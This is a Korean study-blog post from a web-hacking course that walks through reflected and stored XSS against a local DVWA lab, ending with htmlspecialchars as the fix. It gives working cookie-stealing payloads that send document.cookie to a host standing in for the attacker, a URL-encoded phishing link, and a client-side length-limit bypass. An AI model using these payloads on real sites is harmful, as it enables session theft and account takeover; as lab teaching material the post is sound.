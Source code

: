 ```yaml
---
title:  '[강의] 6주차 웹 해킹- 웹 해킹 기술 탐색 5'
excerpt: "week6"

categories:
  - hacking
tags: [study, virtualbox, kalilinux, hacking]

last_modified_at: 2021-07-31T08:06:00-05:00
classes: wide
--- 
```


### 6주간의 해킹 스터디 마지막 시간

6주차 스터디😽😽😽

강의링크는 오른쪽! => [goormedu](https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술)

<br>

이번 시간은 스크립트 코드 삽입을 통해 개발자가 고려하지 않은 기능이 작동하게 하는 치명적인 공격인 **크로스사이트스트리밍(XSS) 공격**에 대해 알아보겠습니다. 드디어 마지막 강의 까지왔다 화이팅~!!

<hr>

### XSS 공격

XSS공격에 대해 알아보기 전 XSS에서 사용하는 언어인 **자바스트립트 언어**에 대해서 알아보도록 합니다 🙋🏽!!

#### - 자바스크립트 (JS)

웹어플리케이션에서 사용되는 언어 HTML과 자바스크립트로 이루어져있음

> HTML : 텍스트, 이미지 등 정적인 내용 표시
> 
> 자바스크립트 : 동적인 기능을 구현 ( ex) 마우스를 가져가면 메뉴의 색이 변하는 것 )

JS 사용 방법!
~~~
<script>  script code    </script>
~~~ 


#### XSS 공격이란?

클라이언트 쪽의 웹브라우저를 공격하는 기법이다. 

만약 어떤 웹브라우저 기능이 입력값을 그대로 출력하는 것이라면, <script>와 같은 입력값이 그대로 웹페이지에 표시되면 위험하다. 
  
해커는 이 자바스크립트를 이용해 세션 쿠키를 알아내 탈취하게 되는 것이다.

#### XSS공격 2가지
> 1. reflected XSS
>
> 2. stored XSS
  
<br>
  
#### 1. Reflected XSS 공격
 
reflected는 script를 반사하기 때문에 붙여진 이름이다. 공격 순서를 알아보도록 한다.

먼저 해커가 한 사용자에게 이메일 등으로 피싱을 한다.
  
![1](https://user-images.githubusercontent.com/53431568/127724126-1218ea01-9dec-4acc-89d2-931aaaed49aa.PNG)

<br>
  
이때, 사용자가 피싱에 속아 클릭을 하게 되면 스크립트 코드가 삽입된 요청이 전송된다.
  
![2](https://user-images.githubusercontent.com/53431568/127724129-3d0a9ede-6cea-426b-8886-a526547ca6ad.PNG)

<br>
  
웹 어플리케이션은 스크립트 코드를 반사시켜 그대로 되돌려준다. 이렇게 되면 웹 브라우저는 스크립트를 실행하게 되고 얻어낸 쿠키를 해커에게 전달하게 된다.

![3](https://user-images.githubusercontent.com/53431568/127724134-af31a433-2e05-479d-8d6a-18a293cd9062.PNG)

<br>

해커가 얻어낸 세션 쿠키를 사용되면 해당 사용자의 계정으로 접속할 수 있게 된다.
  
![4](https://user-images.githubusercontent.com/53431568/127724131-8e03fa4f-29b5-49f3-88fc-a93cbb1da238.PNG)

  
  
#### 2. Stored XSS 공격

script코드가 한 번 저장되었다가 나중에 실행되는 공격!
  
먼저, 해커가 피싱을 하는 것이 아니라 서버의 게시판이나 방명록 같은 곳에 스크립트 코드를 남긴다.
  
![image](https://user-images.githubusercontent.com/53431568/127724500-9e13c762-5561-4e5f-9621-20b171b958b1.png)

<br>

이후 사용자가 방명록에 접속해 글을 읽게 되면 글을 읽은 사용자에게 스크립트 코드가 실행된다.

![image](https://user-images.githubusercontent.com/53431568/127724518-56784bb0-41e9-4ef1-8160-fccd2e574f91.png)

<br>
  
이 이후는 reflected XSS 공격과 같이 쿠키값이 해커에게 전달되고 해커는 해당 사용자의 계정으로 접속할 수 있게 된다.

![image](https://user-images.githubusercontent.com/53431568/127724536-c2e840d8-a148-470f-8a89-56f7bc683d8c.png)

 
### XSS 공격 실습 🚀
#### 1. Reflected XSS

먼저, `low`단계에서 실습! XSS(Reflected) 메뉴로 가면 다음과 같이 이름을 입력하는 웹브라우져가 실행된다.

![image](https://user-images.githubusercontent.com/53431568/127726951-17cb7939-486a-4efc-9275-4fcf6591b1fa.png)

이름을 입력하니 입력한 값이 다시 리턴되는 것을 볼 수 있다.

![image](https://user-images.githubusercontent.com/53431568/127727006-15841c20-3608-4aee-9286-1eb2a12449a1.png)

XSS 취약점을 찾기 위한 가장 간단한 방법은 script 태그를 입력폼에다 입력하는 것이다! 
  
`<script>alert(1)</script>`  명령어를 입력하니 다음과 같이 알림창이 뜨는 것을 확인하였다!! 이를 통해서 해커는 reflected xss 공격이 가능하다는 것을 파악하게 된다.  

![image](https://user-images.githubusercontent.com/53431568/127727055-81d832b0-9b44-4dbd-9ee4-3b72247a8a09.png)

이번에는 쿠키값을 알아보자!
  
`<script>alert(document.cookie)</script>` 입력하니 쿠키의 값이 출력되었다. 

![image](https://user-images.githubusercontent.com/53431568/127727115-08e82497-fe2e-4317-9d21-c1948b7314a4.png)


<br><br>

이번에는 알아낸 쿠키값을 해커가 관리하는 시스템과 같은 다른 시스템에 전달해보자!!!

먼저 터미널을 켜고 `tail -f /opt/lampp/logs/acess_log` 명령어를 통해 해커 호스트의 웹서버의 로그가 출력되는 것을 확인하고, 이후 발생하는 로그도 계속 확인하도록 한다.

![image](https://user-images.githubusercontent.com/53431568/127727168-3cb70cb9-fe82-42fa-8bea-0cdee6504cb0.png)

다음으로  `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>` 명령어를 reflected xss의 입력창에 입력해준다.

> 명령어를 해석하면, document.loaction은 뒤에 나오는 127.0.0.1 인 (지금 해커사이트라고 가정하는 주소)에 리다이렉트를 시켜주며, document.cookie 명령어를 이용해 cookie값을 찍어오게 된다.

아래 이미지를 보니, 입력한 후 터미널에 쿠키값이 넘겨진 것을 확인할 수 있다.  
  
![image](https://user-images.githubusercontent.com/53431568/127727310-fb7ec7ab-6814-40ce-b007-454e63ddb0da.png)
  

  <br>
  <br>
  
  
그런데 드는 의문이.. 개발자도 아니고 어떤 사용자가  <script></script> 를 직접 입력하려나..?! 😅😅😅

따라서 해커는 피싱을 이용해서 사용자가 자기도 모르는 새에 걸려들도록 한다고 한다! ㅎㅎ 그렇다면 간단한 피싱용 메일을 만들어보자!

처음과 같이 이름을 입력하고 이번에는 주소창을 주목! 파라미터 값으로 이름이 전달되는 것을 확인할 수 있다. 이름과 #을 제외한 주소를 복사하자! ctrl + v!  
  
  ![image](https://user-images.githubusercontent.com/53431568/127727435-ccef162e-0164-427b-9614-02ab7cc07f10.png)

  <br>  
  
  이제 피싱링크를 넣을 건데 아까 복사한 주소 뒤에 다음 명령어를 붙여준다. `<script>document.location%3D'http://127.0.0.1/cookie%3F'%2Bdocument.cookie</script>`
  
  뭔가 이상함을 감지했나요?! ㅎㅎ `= , ? , + ' 라는 문자들이 '%3F, %3F, %2B` 로 인코딩되었습니다. 이 이유는  gmail에서 링크를 삽입할때는 url인코딩 기법을 이용해서 인코딩을 거쳐야 하기 때문입니다.!!  주의주의~ 😊😊
  
  
  최종적으로 입력해야할 링크 코드는 다음과 같다.
  
  ~~~javascript
  http://localhost/dvwa/vulnerabilities/xss_r/?name=<script>document.location%3D'http://127.0.0.1/cookie%3F'%2Bdocument.cookie</script>
  ~~~
  
![image](https://user-images.githubusercontent.com/53431568/127727655-9fdc0205-7917-450e-85bf-41ddbfbe517a.png)

위와 같이 했다면 이메일을 보내고 체크! 내가 보낸 메일을 열고 링크를 클릭하니 아까와 같이 터미널 창에 쿠키값이 전달되는 것을 확인할 수 있었다.

![image](https://user-images.githubusercontent.com/53431568/127727771-cec42aa0-36b8-482e-b8fa-6c518d4eb2d4.png)

<br><br>
  
#### 2. Stored XSS
  
이 공격은 해커가 스크립트 코드를 서버에 직접 삽입해 웹 페이지 자체에서 실행된다. 때문에 해당 페이지를 방문하는 모든 사용자가 위험에 노출되는 무서운 공격이다.

dvwa의 Stored XSS 메뉴로 들어가면 방명록을 작성하는 것과 같은 페이지를 보게되는데 이때, 테스트 텍스트를 넣어보자! 나는 다음과 같이 아까 사용한  `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>` 코드를 입력하니 뒤에 글자 제한 때문에 코드가 잘린 것을 볼 수 있었다. 
  
![image](https://user-images.githubusercontent.com/53431568/127727913-e7cf860b-e476-4070-877c-c26deb1f8fc5.png)

이런 글자 수 제한은 간단히 우회할 수 있는데.. 입력창에서 마우스 오른쪽 클릭을 한 후 `inspect element`를 보면 아래에 창이 뜬다. 자세히 보면 maxlength 라는 파라미터가 있는데 이 값을 변경해 주면된다.!


나는 50-> 500으로 넉넉히 변경해주었다. 이제 입력이 가능하다! 

![image](https://user-images.githubusercontent.com/53431568/127727995-1e97c99b-6f2e-4f22-8dbc-626dbbb56fbb.png)

방명록에 입력후 버튼을 누르자 마자 바로 스크립트가 실행된다. 이는, 이 글이 있는 방명록 페이지에 접속하자 마자 스크립트가 실행되는 것이다. 

![image](https://user-images.githubusercontent.com/53431568/127728071-7b2d8eb7-32f2-4e72-88ba-6f3e3647a88a.png)

터미널을 확인하니 페이지에 방문하기만 해도 쿠키값이 넘어가는 것을 확인할 수 있었다.

![image](https://user-images.githubusercontent.com/53431568/127728104-96a029ea-da93-4bb9-8d4d-0a828d2fe204.png)

이런식으로 해커는 하나의 공격으로 다수의 사용자들을 공격할 수 있게 된다. 

<br><br>
  
### XSS 공격 대응 👨‍🏫

impossible 단계의 소스코드를 보면서 알아보자
  
![image](https://user-images.githubusercontent.com/53431568/127728266-50c4bf64-d38b-4f00-b04d-5fae57d83e74.png)
  
소스코드를 보니 `htmlspecialchars` 라는 함수를 사용하는데 이 함수는 몇몇 함수를 html entity 라는 것으로 변경하는 함수이다.
  
이를 통해서 페이지 상에서는 script 코드가 그냥 들어간 것 같지만 뒤에서는 이 코드를 **`다른 문자로 변경하여 실제로 코드 실행을 방지`**할 수 있게 한다.

실제로 restored reflect 페이지에서 `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>`를 submit 한 수, 페이지 빈 공간에서 
오른쪽 클릭을 한 후 View source를 확인해보면..
  
  ![image](https://user-images.githubusercontent.com/53431568/127728429-ed9e35a5-4165-4455-86bf-556184084438.png)

  다음과 같이 몇몇 문자가 다른 문자로 바뀐 것을 확인할 수 있다! (`&lt` 와 같은 전혀 다른 일을 수행하는 명령어로 교체됨)

  ![image](https://user-images.githubusercontent.com/53431568/127728396-832a08f1-2f16-42b9-a171-9d9b9e493f67.png)

  
  
#### 이미지 출처
  
[https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술](https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술)
  
  
  
